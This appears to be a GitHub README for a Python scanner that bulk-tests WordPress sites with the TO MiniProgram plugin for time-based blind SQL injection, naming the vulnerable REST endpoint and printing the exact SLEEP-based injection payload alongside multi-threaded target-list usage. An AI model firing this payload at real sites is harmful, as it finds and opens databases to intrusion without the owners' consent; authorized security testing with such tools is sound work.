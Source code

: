 # TO MiniProgram SQLi Scanner
![Banner]([https://imgur.com/a/O2JAO7D]) *Replace with actual banner image*

A specialized SQL injection scanner targeting WordPress sites with the TO MiniProgram plugin vulnerable endpoint.

## Features

- 🚀 **High-performance scanning** with multi-threading support
- 🎯 **Accurate detection** of time-based blind SQL injection vulnerabilities
- 📋 **Multiple target support** (single URL or file with URL list)
- 📊 **Clear reporting** with color-coded results
- 💾 **Automatic saving** of vulnerable targets to `vulnerable.txt`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/HackfutSec/SQLwp.git
   cd SQLwp
   ```

2. Install required dependencies:
   ```bash
   pip3 install -r requirements.txt
   ```

## Usage

### Basic scan (single target)
```bash
python3 scanner.py -u http://target-site.com -d 5
```

### Bulk scan (from file)
```bash
python3 scanner.py -l targets.txt -t 10 -d 5
```

### Options
| Option | Description | Default |
|--------|-------------|---------|
| `-u`, `--url` | Single target URL | - |
| `-l`, `--list` | File containing list of target URLs | - |
| `-d`, `--delay` | Sleep time for time-based detection (in seconds) | 5 |
| `-t`, `--threads` | Number of concurrent threads | 5 |

## Technical Details

### Vulnerability Tested
The scanner checks for SQL injection in the TO MiniProgram WordPress plugin's endpoint:
```
/wp-json/watch-life-net/v1/comment/getcomments
```

### Payload Used
The scanner sends a time-based blind SQL injection payload:
```sql
DESC,(SELECT(1)FROM(SELECT(SLEEP(5)))a)--
```

### Detection Logic
- The scanner measures response time
- If response time exceeds the specified delay, vulnerability is confirmed

## Output Example

![Sample Output](https://i.imgur.com/ABC5678.png) *Replace with actual output screenshot*

## Ethical Use

⚠️ **This tool is for authorized security testing only.**  
⚠️ **Always obtain proper authorization before scanning any website.**  
⚠️ **The maintainers are not responsible for misuse of this tool.**

## Contribution

Contributions are welcome! Please open an issue or pull request for:
- Bug fixes
- Feature enhancements
- Documentation improvements

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Contact

- GitHub: [@HackfutSec](https://github.com/HackfutSec)
- For security concerns: *HackfutSec404@proton.com*

---

🔒 **Happy (ethical) hacking!** 🔒
